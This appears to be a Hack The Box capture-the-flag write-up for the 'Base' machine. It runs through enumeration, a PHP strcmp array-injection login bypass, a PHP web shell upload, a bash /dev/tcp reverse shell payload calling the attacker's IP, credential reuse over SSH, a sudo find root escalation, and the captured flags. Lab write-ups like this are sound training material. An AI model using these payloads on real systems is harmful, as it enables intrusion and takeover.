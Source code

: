 ```yaml
---
title: "HTB Base - Write-up"
description: "Hack The Box write-up for the 'Base' machine (Tier 2). Covers enumeration, authentication bypass, file upload, reverse shell, and privilege escalation."
tags: [HackTheBox, Web Exploitation, Privilege Escalation, PHP, Linux, CTF]
date: 2025-07-17
---
```


# HTB Base - Write-up

**Target IP**: 10.129.88.98  
**Attacker IP**: 10.10.14.129  
**Difficulty**: Easy  
**Tier**: 2  
**OS**: Linux

---

## 🔍 Enumeration

Performed service and version scanning with Nmap:

```bash
sudo nmap -sC -sV 10.129.88.98
```

**Results**:
- `22/tcp` – SSH Open
- `80/tcp` – Apache httpd 2.4.29 (Ubuntu)

Web interface on `http://10.129.88.98` led to a login page at:

```
http://10.129.88.98/login/login.php
```

Directory listing at `/login/` revealed:

- `config.php`
- `login.php`
- `login.php.swp` ← **interesting**

Analyzing `login.php.swp` (a leftover Vim swap file) revealed:
- Use of `strcmp()` to compare credentials
- Susceptible to **PHP array injection (type juggling)**:
  ```php
  username[]=admin&password[]=pass
  ```

---

## 🚪 Authentication Bypass & Foothold

Login bypass was successful by intercepting the POST request in Burp and sending:

```http
POST /login/login.php
username[]=admin&password[]=pass
```

This redirected to `/upload.php`, confirming authentication.

To access the upload page in browser or CLI:

```bash
curl -b "PHPSESSID=<your-session>" http://10.129.88.98/upload.php
```

---

## 📤 File Upload and Code Execution

Created a test PHP file:
```bash
echo "<?php phpinfo(); ?>" > test.php
```

Uploaded successfully.

Used `gobuster` to find the upload directory:
```bash
gobuster dir -u http://10.129.88.98/ -w /usr/share/wordlists/dirb/big.txt
```

Found:
```
http://10.129.88.98/_uploaded/
```

Uploaded a web shell:
```bash
echo "<?php echo system(\$_REQUEST['cmd']); ?>" > webshell.php
```

Confirmed execution:
```
http://10.129.88.98/_uploaded/webshell.php?cmd=id
```

Response:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## 🦻 Reverse Shell Access

Set up Netcat listener:

```bash
nc -lvnp 4444
```

Sent reverse shell payload (URL-encoded):

```
cmd=/bin/bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.129/4444%200%3E%261%22
```

Connection received — shell established.

---

## 🔄 Post-Exploitation

- Read `config.php`:
  ```php
  $username = "admin";
  $password = "thisisagoodpassword";
  ```
- Found `/home/john` — attempted SSH with above creds:
  ```bash
  ssh john@10.129.88.98
  ```
- Success! Logged in as **john**.

---

## ⬆️ Privilege Escalation

Checked `sudo` permissions:
```bash
sudo -l
```

Output:
```
User john may run the following commands on base:
  (root : root) /usr/bin/find
```

Found privesc method via GTFOBins:
```bash
find . -exec /bin/sh \; -quit
```

Root shell obtained.

---

## 🏁 Flags

**User flag**:
```
f54846c258f3b4612f78a819573d158e
```

**Root flag**:
```
51709519ea18ab37dd6fc58096bea949
```

---

## ✅ Takeaways

- Learned how to identify and exploit a **PHP type juggling vulnerability**
- Practiced **file upload abuse**, **remote command execution**, and **reverse shell delivery**
- Demonstrated lateral movement via **hardcoded credentials** and **SSH access**
- Completed **HTB Tier 2**

---

## 🔖 Tags

`HTB` `Linux` `Privilege Escalation` `File Upload` `PHP Exploit` `Reverse Shell` `Type Juggling` `SSH` `Vim Swap`
